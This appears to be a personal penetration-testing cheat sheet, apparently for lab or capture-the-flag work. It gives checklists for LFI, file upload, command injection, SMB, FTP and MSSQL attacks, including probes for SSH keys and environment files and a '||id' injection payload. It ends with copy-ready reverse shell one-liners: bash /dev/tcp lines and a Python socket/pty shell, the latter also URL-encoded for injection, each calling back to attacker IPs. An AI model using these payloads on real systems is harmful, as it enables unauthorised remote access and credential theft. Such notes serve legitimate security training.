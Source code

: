 ### Pin
[[Pin_bruteforcing]] 
### LFI? 
- Can you overwrite /var/log/apache2/access.log for poisoning?
- any /home/user/.ssh/id_rsa?
- /proc/self/env?
- /etc/knockd.conf - [[Port Knocking]] 
To check whether it is LFI as opposed to directory traversal, try to include a local file that you know is present, like index.php. If it loads within the page, or hangs, it is probably a local file inclusion. 
### File Upload?
- Upload a shell 
- directory busting [[gobuster]] [[wfuzz]] 
### Command Injection
```bash
ip=127.0.0.1JUNKDATA||id
```
- In the case of command execution on the server, look for ways to inject a command. Ex, intentionally causing the first command to fail and using double pipes to execute an alternate 
## [[Abusing SMB]]:
[[netexec]],[[crackmapexec]], [[smbclient]], [[enum4linux]], [[smbmap]], [[rpcclient]], [[nbtscan]], [[nmap]], 
- Check for null authentication (null session.) Start with [[smbclient]], because it usually just works to list shares. then move to [[crackmapexec]] and others.
## [[FTP]]:
- Anonymous access? [[mod_copy]] (target known file such as /etc/passwd)
- Upload/download?

## MSSQL Server?
- Kerberoasting. Usually need a separate user to set up, so a SPN is created. Look for some valid creds.
- [[SQL Injection]] - Authentication Bypass, Information Exfil
- If you have creds, or want to try defaults use the [[impacket]] module. 
## [[Reverse Shells]]:
#### Bash:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.15.50/4444 0>&1'
```
	Need it to run in the background? append the &
```bash
bash -c 'bash -i >& /dev/tcp/10.10.15.49/9001 0>&1 &'
```
#### Autorun Base64 encoded payload:
```bash
echo 'BASE64ENCODEDPAYLOADSTRING | base64 -d | bash'
```
#### Python3:
```python
export RHOST="192.168.45.218";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
	Encoded:
```
export%20RHOST%3D%22192%2E168%2E45%2E218%22%3Bexport%20RPORT%3D4444%3Bpython3%20%2Dc%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28os%2Egetenv%28%22RHOST%22%29%2Cint%28os%2Egetenv%28%22RPORT%22%29%29%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22sh%22%29%27
```